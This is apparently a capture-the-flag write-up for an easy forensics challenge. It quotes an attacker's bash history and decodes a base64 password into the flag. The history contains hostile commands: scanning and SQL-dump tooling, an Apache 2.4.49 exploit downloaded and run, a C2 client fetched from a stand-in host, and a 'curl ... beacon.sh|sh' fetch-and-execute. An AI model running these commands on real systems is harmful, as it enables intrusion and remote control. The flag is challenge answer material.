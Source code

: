 # Frontier Exposed
- **Category:** Forensics
- **Difficulty:** Very Easy
- **Description:** "The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective. Spawn the docker and start the investigation!"

Accessing the docker URL will lead us to this page

![image](https://github.com/KimiNoPanda/CTF/blob/main/Write-up/HTB-Uni%20%3A%20Binary%20Badlands/Forensics/assets/1.png)

By opening each file, we can see in the `.bash_history` :

```bash
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html
```

We can see the use of a password and copying it into cyberchef gives us the flag : HTB{C2_cr3d3nt14ls_3xp0s3d}

![image](https://github.com/KimiNoPanda/CTF/blob/main/Write-up/HTB-Uni%20%3A%20Binary%20Badlands/Forensics/assets/2.png)
